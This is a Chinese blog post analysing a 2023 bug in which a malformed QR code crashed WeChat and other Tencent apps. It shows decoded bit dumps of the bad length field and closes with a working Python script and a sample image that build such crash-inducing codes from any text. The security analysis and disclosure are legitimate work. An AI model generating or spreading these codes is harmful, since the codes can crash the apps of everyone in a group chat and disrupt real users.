 ```yaml
---
title: The reason for the QR code crash
description: 扫码崩溃的原因，附源码分析
date: 2023-04-25T13:00:00.000+00:00
lang: zh
duration: 10min
plum: true
---
```

> 原文转自:[扫码崩溃的原因，附源码分析](https://mp.weixin.qq.com/s/JKDOTIvJqGVPLmXP3BK5rQ)

**近日**，网传微信识别上方二维码就会出现闪退BUG，我也也忍不住尝试了一下，果然，一识别该二维码微信立马就出现了闪退的现象；且会出现“微信运行异常，建议前往软件商店更新至最新版本”的提示。

随后，我又对该二维码进行了转发测试，亦是如此，将二维码转发给好友后微信又出现闪退情况；在手机微信中无需识别，仅仅是点击该二维码，微信就会出现闪退；

在微信电脑端，小编测试发现苹果电脑点击该二维码同样会出现闪退现象，但是 Windows 10 测试则正常无闪退。

目前该二维码除了导致闪退外未发现其他副作用。

对于此次闪退事件，有网友发文解释称：目前微信闪退崩溃是因为 OCR 识别系统出现了内存崩溃导致的，这个图片导致了微信内存泄漏，所以会闪退崩溃。闪退问题不会涉及个人隐私问题和封号和资金泄漏问题，目前该功能已经在加急加班的修复中。
![知情人士截图](https://i.328888.xyz/2023/04/25/ioT4Td.md.jpeg)

不过上述对于微信闪退的解释也只是网友观点，截止发稿，腾讯官方还未公开回应。前面有提到，由于这张二维码图片导致内存泄漏，进而引发微信闪退。而造成此问题的根源是 “微信二维码引擎”——它会自动识别聊天列表中的二维码

当用户打开聊天列表，微信二维码引擎识别到这张二维码的时候出现了空指针异常，导致二维码模块崩溃

最终 “祸及” 整个微信客户端

另外，不只是微信，其他腾讯系的软件如果使用了同样的二维码引擎，应该都有这个问题。参考此issue的反馈
[issue](https://github.com/opencv/opencv_contrib/issues/3478)
[![ioT2ep.md.png](https://i.328888.xyz/2023/04/25/ioT2ep.md.png)](https://imgloc.com/i/ioT2ep)

从公开的资料可知，该引擎已在 2021 年开源，并合并到了 OpenCV。
[开源地址](https://github.com/WeChatCV)
OpenCV 全称为 Open Source Computer Vision Library，是一个跨平台的开源计算机视觉和机器学习软件库，可用于开发实时的图像处理、计算机视觉以及模式识别程序。

根据开发者的分析，引发微信闪退的二维码属于 “畸形二维码”，这类二维码包含的错误数据块会导致微信二维码模块中的 libqbar.so 崩溃，进而引发软件闪退。

----
## 下面内容来自开发者的分析：


这是一张用微信扫描就会 crash 的二维码，应该是微信 OCR 的实现有问题，以及如果发在群聊里可能会导致群聊的人都闪退（因为微信会自动识别二维码）
UPDATE: 腾讯系的软件应该都有这个问题
感觉主要出锅的地方在：
```shell
[0100] [00000001] []
Mode Indicator : 8-bit Mode (0100)
Character Count Indicator : 1
Decoded data :
```

因为队友说似乎是 null deref，直接遍历解码到后期的时候发现了以下的问题，填充和 RS 在这样的扫描下直接被吃掉了：
```shell
{value: '00000001', type: 'Char. count indicator', decoded: 1, modules: Array(8)}
{value: '10011111', type: 'Message data', decoded: '\x9F', modules: Array(8)}
{value: '0000', type: 'Mode indicator', decoded: 'Terminator', modules: Array(4)}
{value: '0010', type: 'Mode indicator', decoded: 'Alphanumeric mode', modules: Array(4)}
{value: '100111001', type: 'Char. count indicator', decoded: 313, modules: Array(9)}
{value: '01100111100', type: 'Message data', decoded: 'II', modules: Array(11)}
{value: '01100010011', type: 'Message data', decoded: 'HM', modules: Array(11)}
{value: '10100001110', type: 'Message data', decoded: 'SY', modules: Array(11)}
{value: '00110010000', type: 'Message data', decoded: '8+', modules: Array(11)}
{value: '01110011111', type: 'Message data', decoded: 'KR', modules: Array(11)}
{value: '01101010111', type: 'Message data', decoded: 'J0', modules: Array(11)}
{value: '01110100010', type: 'Message data', decoded: 'KU', modules: Array(11)}
{value: '10000011011', type: 'Message data', decoded: 'NG', modules: Array(11)}
{value: '11101010111', type: 'Message data', decoded: '-Y', modules: Array(11)}
{value: '1101', type: 'Message data', decoded: '0D', modules: Array(4)}
{value: '', type: 'Message data', decoded: NaN, modules: Array(0)}
{value: '', type: 'Message data', decoded: NaN, modules: Array(0)}
```
提取出的数据来看，在到达最后一个 8-bit Mode 后是一个不可见字符 \x9f 和正常的终止符号，但在之后本应该是 padding 的 11101100 和 11101100 却不见了踪迹，后续的 block 恰好被解析为了 Alphanumeric mode，长度块标准为 9 bit，并且读取出其长度为 313，导致后续的数据被解析为了奇怪的内容，并且直接开始越界解析。

但是尝试复现并未成功构造一个可以被微信复现的二维码，并且 qrazybox 也被这样的长度标识欺骗了，但是在上面的例子里并没有，似乎整个问题比想象的复杂：
```shell
Final data bits :
00101111111110000101110100010001010001110011000010100000111011000001000111101100000100011110110000010001111011000001000111101100
[0010] [111111111] [0000101110100010001010001110011000010100000111011000001000111101100000100011110110000010001111011000001000111101100]
Mode Indicator : Alphanumeric Mode (0010)
Character Count Indicator : 511
Decoded data : 2333AA76%J5L1QVFA.380Cundefinedundefinedundefinedundefinedundefined……
Final Decoded string : 2333AA76%J5L1QVFA.380C
```
忽略了一个核心问题，这个二维码的数据区已经被完全填满（224 bit），解码器可能会因为遇到 padding pattern 而提前 break，打算再去构造一下。
构造成功了，成功让微信崩溃了！几个要点：
1. 数据需要绝对无填充，不可以出现 padding pattern
2. 最后一个 block 的记录长度要尽可能的长，与什么模式无关

理论上只要能够找到合适的 data block 组合，恰好填充满二维码的容量，并在最后一个 0 长 block 中写入一个越界的长度，并保证上述所有数据 RS 纠错码生成正确，就可以实现崩溃了。
附上复现用的代码，可根据任意文本内容构造畸形二维码：
```python
import qrcode
from qrcode.util import QRData, MODE_8BIT_BYTE

NUM_BLOCKS = [19, 34, 55, 80, 108, 136, 156, 194, 232]

def tencent_crash_qrcode(message: str, filename='crash.png'):

    def hack_put(self, num, length):
        if num == 0:
            num = 1
        for i in range(length):
            self.put_bit(((num >> (length - i - 1)) & 1) == 1)
    
    data = message.encode('utf-8')
    data_len = len(data)

    version = 1
    while version <= len(NUM_BLOCKS) and data_len + 3 > NUM_BLOCKS[version-1]:
        version += 1
    if version > len(NUM_BLOCKS):
        raise Exception('message too long')

    data += b' ' * (NUM_BLOCKS[version-1] - data_len - 3)

    print(data_len, version)
    qr = qrcode.QRCode(version, qrcode.constants.ERROR_CORRECT_L)
    
    comm_data = QRData(data, MODE_8BIT_BYTE)
    hack_data = QRData(b'', MODE_8BIT_BYTE)

    qr.add_data(comm_data, 0)
    qr.add_data(hack_data, 0)

    original_put = qrcode.util.BitBuffer.put
    qrcode.util.BitBuffer.put = hack_put
    qr.make_image().save(filename)
    qrcode.util.BitBuffer.put = original_put

tencent_crash_qrcode('KFCVW50')
```
**最后**，附上一个通过脚本生成的畸形二维码。
[![ioTjB3.th.png](https://i.328888.xyz/2023/04/25/ioTjB3.th.png)](https://imgloc.com/i/ioTjB3)